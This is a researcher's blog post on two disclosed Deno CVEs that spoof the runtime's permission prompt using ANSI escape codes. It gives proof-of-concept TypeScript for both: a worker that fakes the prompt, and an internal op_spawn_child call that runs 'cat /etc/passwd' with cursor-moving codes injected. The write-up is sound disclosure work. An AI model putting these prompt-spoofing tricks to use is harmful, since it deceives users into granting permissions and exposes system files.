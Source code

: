 ```yaml
---
title: twice-around ansi injection in deno
description: permission prompts are wonderful, but the modern terminal is powerful too.
emojis: 🦕 🚫 📟
date: 2023-03-25
slug: deno-ansi-injection
---
```


Deno is a wonderful project (and i &amp;lt;3 it). I've been following the project for a few years now, and it is one of my favourite scripting runtimes, even more than python.
It's a great way to run TypeScript (and, unfortunately, JavaScript) code on the server side, and its package model + permission system proves extremely powerful.

However, the project for me served as a good start on my first few CVEs.

## Deno's permission system

Deno, by default, is secure. Deno doesn't make guarantees on runtime resources (CPU, RAM), but it does make guarantees on external access or permenant storage.

For example, if a malicious script you ran (maybe `deno run https://example.com/malicious-script.ts`) tried to access the file system, it would be denied. This is because Deno's default permissions don't allow for:

- network access
- file system access
- environment access
- arbitrary command execution
- ffi access
- and even fingerprinting (system apis and disables high resolution timers)

However, sometimes you _want_ a script to have these permissions, so deno treats you with a prompt. For example, running `deno run https://example.com/grab-a-cat-pic.ts`, which grabs pictures of cats from an `example.com` API, would prompt you with:

```
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

This is a wonderful feature, and I'm glad it exists. It makes working with arbitrary scripts much safer, and it's a great way to ensure that you're not running malicious code.
Unfortunately, it's not perfect.

## by accident

I was playing around with Deno's web workers. Web workers allow you to run code in a separate thread,
and they're a great way to do things like offload CPU intensive tasks to a separate thread, or to run code in a separate thread without blocking the main thread.

At the time, I was trying to fetch some data from my main file asynchronously, and wanted to see how well it worked with web workers.

```ts:worker.ts
console.log('hello from worker');
```

```ts:main.ts
const worker = new Worker(new URL('worker.ts', import.meta.url).href, {
	type: 'module'
});

const request = await fetch('https://example.com/api/cat-pics');
```

```sh
$ deno run --allow-net main.ts
```

This worked great! I was able to fetch data from the internet, and I was able to run code in a separate thread.

However, when running it again, I forgot to include `--allow-net`, leading to this interesting prompt:

```sh
┌ ⚠️  Deno requests net access to "example.com".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
hello from worker
```

At first, I didn't think much of it. I simply assumed the web worker was just running after, and the network request took a bit to kick in, and that it was just printing out the message.

However, from my previous work with direct ANSI codes (as I wanted to know how terminal colors were displayed), I knew that you could use ANSI codes to move the cursor around, and I knew that you could use ANSI codes to clear the screen.

So, I decided to try it out.

```ts:worker.ts
console.clear();
console.log(`
┌ ⚠️  Deno requests net access to "deno.land".
├ Requested by `fetch()` API
├ Run again with --allow-net to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
`);
```

```ts:main.ts
const worker = new Worker(new URL('worker.ts', import.meta.url).href, {
	type: 'module'
});

const request = await fetch('https://example.com/api/malicious-fetch-fingerprint');
```

```sh
deno run main.ts
```

As predicted, the prompt was cleared, and the message was printed out. This simple trick allowed me to spoof the prompt, and it was a great way to get a user to accidentally grant permissions to a malicious script.

This CVE is now [GHSA-mc52-jpm2-cqh6](https://github.com/denoland/deno/security/advisories/GHSA-mc52-jpm2-cqh6), or [CVE-2023-22499](https://nvd.nist.gov/vuln/detail/CVE-2023-22499) ([snyk](https://security.snyk.io/vuln/SNYK-RUST-DENO-3233636)).

## on purpose

Around this time, I recently learned that deno had internal methods (accessible by `Deno[Deno.internal]`).

Then, looking at the permission prompt (from my previous CVE), I noticed that it can take a number of parameters on the rust side, and that it occasionally exposes these parameters to the user.

Here was the template for the permission prompt:

```sh
┌ ⚠️  Deno requests ${type} access to ${scope}.
├ Requested by `${api}` API
├ Run again with --allow-${type} to bypass this prompt.
└ Allow? [y/n/A] (y = yes, allow; n = no, deny; A = allow all net permissions) >
```

`type` and `scope` are both tightly controlled, and are only ever set to a few values. However, `api` is not. It's set to whatever the API is that is requesting the permission.

For ease of developer convenience, the Deno maintainers made this configurable, and allowed you to set the `api` parameter to whatever you wanted, on the TypeScript side.

This was hidden in `op` functionality, specifically in `op_spawn_child` and `op_kill`, where `op_spawn_child` works on `--unstable` and `op_kill` is configured to give access to all run permissions.

```ts
const boldANSI = '\u001b[1m'; // bold
const unboldANSI = '\u001b[22m'; // unbold

const prompt = `┌ ⚠️  ${boldANSI}Deno requests run access to "echo"${unboldANSI}
├ Requested by \`Deno.Command().output()`;

const moveANSIUp = '\u001b[1A'; // moves to the start of the line
const clearANSI = '\u001b[2K'; // clears the line
const moveANSIStart = '\u001b[1000D'; // moves to the start of the line

Deno[Deno.internal].core.ops.op_spawn_child(
	{
		cmd: 'cat',
		args: ['/etc/passwd'],
		clearEnv: false,
		env: [],
		stdin: 'null',
		stdout: 'inherit',
		stderr: 'piped'
	},
	moveANSIUp + clearANSI + moveANSIStart + prompt
);
```

Once again, this allowed me to spoof the prompt, providing another way to get a user to accidentally grant permissions to a malicious script.

This is now [GHSA-vq67-rp93-65qf](https://github.com/denoland/deno/security/advisories/GHSA-vq67-rp93-65qf), or [CVE-2023-28446](https://nvd.nist.gov/vuln/detail/CVE-2023-28446) ([snyk](https://security.snyk.io/vuln/SNYK-RUST-DENORUNTIME-3373053))

## tips

dig into stuff, if it looks interesting, and try it out. You never know what you might find.
